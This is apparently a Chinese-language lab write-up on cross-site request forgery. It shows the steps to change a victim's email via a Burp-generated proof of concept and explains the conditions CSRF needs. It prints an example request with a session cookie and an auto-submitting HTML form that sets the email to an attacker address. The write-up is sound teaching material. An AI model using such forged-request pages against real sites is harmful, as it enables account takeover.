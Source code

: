 # 题意
![](pic/15-1.png)

修改邮箱地址
# 解题思路

step1:测试修改邮箱功能

登录账号后对邮箱进行修改，获取对应的url
![](pic/account.png)

step2:用burp生成CSRFpoc
![](pic/csrfpoc.png)


step3:将生成的poc复制到expolit server中，点击deliver即可

![](pic/solve.png)
# 知识点
## CSRF
CSRF(跨站请求伪造),攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的。

## CRSF如何执行

CSRF实现需要以下三个条件

1. 某个特定的操作。即攻击者需要伪装成用户实现的操作，像是特权操作，如修改其他用户的权限，修改用户密码等。
2. 基于cookie的会话处理。执行该操作涉及发出一个或多个 HTTP 请求，应用程序仅依赖会话 cookie 来识别发出请求的用户。没有其他机制来跟踪会话或验证用户请求。
3. 没有未知的请求参数。请求中不包含任何攻击者不能决定或者猜解的参数。例如，对于修改密码这项功能来说，如果修改密码需要知道原密码，那么这项功能就无法被CSRF攻击。
   

例如，假设应用程序包含一个让用户修改账户中的邮件地址的功能，当用户进行这个操作时，会发送如下http请求：
```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE

email=wiener@normal-user.com
```
这就满足了CSRF的要求：
修改用户的邮件地址是攻击者感兴趣的，攻击者可以借此修改密码从而控制整个账户。

应用程序只用ookie来进行身份验证，没有其他token或者机制来追踪用户会话。


攻击者可以轻易地确定请求参数的值。

满足这些条件，攻击者可以构建包含如下HTML的网页：

```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

受害者访问该页面后会：

攻击者的网页会向漏洞站点发送http请求，如果用户已经登录了漏洞站点，浏览器会在请求中自动包含cookie，漏洞站点会正常处理该请求，修改受害者的邮箱地址。

